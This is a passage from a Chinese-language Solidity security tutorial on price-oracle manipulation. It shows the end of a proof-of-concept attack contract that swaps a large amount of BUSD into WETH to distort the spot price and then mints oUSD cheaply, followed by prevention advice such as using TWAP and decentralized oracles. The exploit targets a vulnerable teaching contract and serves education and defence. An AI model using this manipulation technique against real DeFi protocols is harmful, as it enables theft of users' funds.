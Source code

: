 ```solidity
        console.log("2. Swap 1,000,000 BUSD to WETH to manipulate the oracle");
        // 3. 操纵预言机之后的价格
        uint256 priceAfter = ousd.getPrice();
        console.log("3. ETH price (after attack): %s", priceAfter); 
        // 4. 铸造oUSD
        ousd.swap{value: 1 ether}();
        console.log("4. Minted %s oUSD with 1 ETH (after attack)", ousd.balanceOf(address(this))/10e18); 
    }

    // Swap BUSD to WETH
    function swapBUSDtoWETH(uint amountIn, uint amountOutMin)
        public
        returns (uint amountOut)
    {   
        busd.approve(address(router), amountIn);

        address[] memory path;
        path = new address[](2);
        path[0] = BUSD;
        path[1] = WETH;

        uint[] memory amounts = router.swapExactTokensForTokens(
            amountIn,
            amountOutMin,
            path,
            alice,
            block.timestamp
        );

        // amounts[0] = BUSD amount, amounts[1] = WETH amount
        return amounts[1];
    }
}
```

## 3 预防方法

知名区块链安全专家 `samczsun` 在一篇[博客](https://www.paradigm.xyz/2020/11/so-you-want-to-use-a-price-oracle)中总结了预言机操纵的预防方法，这里总结一下：

1. 不要使用流动性差的池子做价格预言机。
2. 不要使用现货/瞬时价格做价格预言机，要加入价格延迟，例如时间加权平均价格（TWAP）。
3. 使用去中心化的预言机。
4. 使用多个数据源，每次选取最接近价格中位数的几个作为预言机，避免极端情况。
5. 仔细阅读第三方价格预言机的使用文档及参数设置。

## 4 总结

这一讲，我们介绍了操纵预言机攻击，并攻击了一个有漏洞的合成稳定币合约，使用`1 ETH`兑换了17万亿稳定币，成为了世界首富（并没有）。